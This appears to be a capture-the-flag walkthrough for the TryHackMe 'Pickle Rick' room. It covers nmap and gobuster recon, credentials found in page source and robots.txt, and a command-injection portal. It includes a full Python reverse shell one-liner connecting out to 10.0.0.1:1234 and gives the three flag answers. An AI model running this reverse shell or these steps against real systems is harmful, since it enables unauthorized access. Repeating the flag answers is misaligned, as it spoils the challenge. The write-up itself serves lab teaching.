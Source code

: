 # Pickle Rick

`export IP=10.10.121.64`

## Recon

The first part of searching this box is to do recon on the machine first to find the ports that the box has open so to do this is to do an initial nmap scan `nmap -sC -sV -oN nmap/initial $IP -v` [initial scan](https://github.com/tigercub-co/TryHackMe/blob/master/Pickle_Rick/nmap/initial) after doing the initial scan we can to do a full scan of the system `nmap -p- -sC -sV -oN nmap/full $IP`[full scan](https://github.com/tigercub-co/TryHackMe/blob/master/Pickle_Rick/nmap/full)

while the full scan is running we can do a gobuster scan of the ip to find what is available on the webpage `gobuster dir -u http://$IP:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` [gobuster scan](https://github.com/tigercub-co/TryHackMe/blob/master/Pickle_Rick/gobuster/sitescan) from that scan it shows only two folders and no pages so we should look at the main webpage by going to the IP.

##WebPage Recon

So the first thing to do is to go to the webpage and we are greeted with this page.

![web page](https://github.com/tigercub-co/TryHackMe/blob/master/Pickle_Rick/images/InitialPage.PNG)

looking at the page there is nothing of interest so we can look at the source code of the page

![home page source code](https://github.com/tigercub-co/TryHackMe/blob/master/Pickle_Rick/images/InitialPageSC.PNG)

from that page we get the user name `R1ckRul3s`. But there is nothing of any importance so the next thing to do is see if there is a robots.txt page.

![robots.txt page](https://github.com/tigercub-co/TryHackMe/blob/master/Pickle_Rick/images/Robots.txt.PNG)

if we look at that page it gives us `Wubbalubbadubdub` which we make a not of as it may come in useful in the future. As we still have no other pages available we can look in the assets folder on the webpage.

![assets folder](https://github.com/tigercub-co/TryHackMe/blob/master/Pickle_Rick/images/assets.PNG)

It shows a page with linkes images as wel as the bootstrap code so looking at the images we can try and use those names as potential page names for this task we can use it as a [wordlist](https://github.com/tigercub-co/TryHackMe/blob/master/Pickle_Rick/gobuster/custom.txt) to search against the page with the code  `gobuster dir -u http://$IP:80 -w /usr/share/wordlists/dirbuster/customlist.txt -x php,txt,html`[custom search](https://github.com/tigercub-co/TryHackMe/blob/master/Pickle_Rick/gobuster/custom). From that search we can see that there is a page caled portal.php so the next stage is to browse to that page. 

![portal page](https://github.com/tigercub-co/TryHackMe/blob/master/Pickle_Rick/images/portal_login.PNG)

Once we go to that page we can login to the portal page and once we logged in there is a commands page which looks like it is vulnrable and allows us to access the page via a reverse sheel with python by running this code `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` This allows us access to the box.

![commands page](https://github.com/tigercub-co/TryHackMe/blob/master/Pickle_Rick/images/portal.PNG)

Once we have access to the box we need to find the ingredients.

the first ingerdient can be found by doing a simple ls

![ingredient one](https://github.com/tigercub-co/TryHackMe/blob/master/Pickle_Rick/images/SecretIngredient1.PNG)

*Answer the first ingredient is mr. meeseek hair*

We still have to find two ingredients the second ingredient can be found by looking in the home directory of rick

![second ingredient](https://github.com/tigercub-co/TryHackMe/blob/master/Pickle_Rick/images/SecretIngredient2.PNG)

*Answer the second ingredient is 1 jerry tear*

the third ingredient can be found in /root

![third ingredient](https://github.com/tigercub-co/TryHackMe/blob/master/Pickle_Rick/images/SecretIngredient3.PNG)

*Answer the third ingredient is fleeb juice*

